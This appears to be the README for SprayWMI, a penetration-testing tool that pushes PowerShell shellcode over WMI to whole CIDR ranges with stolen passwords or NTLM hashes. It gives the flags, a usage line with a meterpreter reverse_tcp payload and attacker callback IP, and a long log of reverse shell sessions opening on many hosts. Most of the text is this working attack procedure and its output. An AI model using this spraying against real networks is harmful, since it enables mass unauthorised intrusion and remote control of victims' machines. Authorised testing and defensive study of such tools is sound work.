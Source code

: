 SprayWMI is a method for mass spraying unicorn powershell injection to CIDR notations.

Written by David Kennedy @TrustedSec
Special thanks: Justin Elze and Larry Spohn

Initial Blog: https://www.trustedsec.com/june-2015/no_psexec_needed/ if you have trouble with this on 64 bit - try:

dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flag descriptions:

DOMAIN - domain you are attacking - if its local, just specify workgroup

USERNAME - username to authenticate on the remote Windows system

PASSWORD - password or password hash lm:ntlm to use on the remote Windows system

CIDR_RANGE,CIDR_RANGE or ips.txt - you can specify a single ip, a CIDR range (192.168.1.1/24) or multiple CIDRs such as 192.168.1.1/24,192.168.2.1/24. You can also specify a file (ex: file.txt) which has single IP addresses on a new line. 

METASPLOIT_PAYLOAD - this is the payload you want to use example: windows/meterpreter/reverse_tcp

REVERSE_SHELL_IP - this is the IP address of your attacker machine that you want to create a listener or use an already established listener

REVERSE_SHELL_PORT - port to connect back on for the reverse

OPTIONAL: NO - specify no if you do not want to create a listener - this is useful if you already have a listener established. If you do not specify a value here, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password or hash lm:ntlm> <cidr_range,cidr_range or ips.txt> <metasploit_payload> <reverse_shell_ip> <reverse_shell_port> <optional: no>

Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 192.168.90.1/24,192.168.0.1/24,192.168.59.1/24,192.168.96.1/24,192.168.1.1/24 windows/meterpreter/reverse_tcp 192.168.47.24 443

[*] Generating shellcode through unicorn, could take a few seconds...

[*] Launching the listener in the background...

[*] Waiting for the listener to start first before we continue forward...

[*] Be patient, Metaploit takes a little bit to start...

[*] Sweeping network for ports that are open first, then moving through... Be patient.

[*] Launching WMI spray against IP: 192.168.90.1 - you should have a shell in the background. Once finished, shell will spawn

<snip>

[*] Launching WMI spray against IP: 192.168.96.20 - you should have a shell in the background. Once finished, shell will spawn

[*] Launching WMI spray against IP: 192.168.96.21 - you should have a shell in the background. Once finished, shell will spawn

[*] Launching WMI spray against IP: 192.168.96.22 - you should have a shell in the background. Once finished, shell will spawn

[*] Launching WMI spray against IP: 192.168.96.23 - you should have a shell in the background. Once finished, shell will spawn

[*] Launching WMI spray against IP: 192.168.96.242 - you should have a shell in the background. Once finished, shell will spawn

[*] Launching WMI spray against IP: 192.168.1.13 - you should have a shell in the background. Once finished, shell will spawn

[*] Spraying is still happening in the background, shells should arrive as they complete.

[*] Interacting with Metasploit...

msf exploit(handler) > 

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 192.168.90.174

[*] Meterpreter session 1 opened (192.168.47.24:443 -> 192.168.90.174:49868) at 2015-10-13 04:33:55 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 192.168.90.203

[*] Meterpreter session 2 opened (192.168.47.24:443 -> 192.168.90.203:51333) at 2015-10-13 04:33:59 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 192.168.90.184

[*] Meterpreter session 3 opened (192.168.47.24:443 -> 192.168.90.184:61218) at 2015-10-13 04:34:02 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 192.168.90.204

[*] Meterpreter session 4 opened (192.168.47.24:443 -> 192.168.90.204:54219) at 2015-10-13 04:34:06 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 192.168.90.175

[*] Meterpreter session 5 opened (192.168.47.24:443 -> 192.168.90.175:54210) at 2015-10-13 04:34:10 -0400

<snip>

[*] Meterpreter session 13 opened (192.168.47.24:443 -> 192.168.90.248:53657) at 2015-10-13 04:34:31 -0400

[*] Encoded stage with x86/shikata_ga_nai

[*] Sending encoded stage (885836 bytes) to 192.168.90.39

[*] Meterpreter session 14 opened (192.168.47.24:443 -> 192.168.90.39:60451) at 2015-10-13 04:34:35 -0400

[*] Encoded stage with x86/shikata_ga_nai
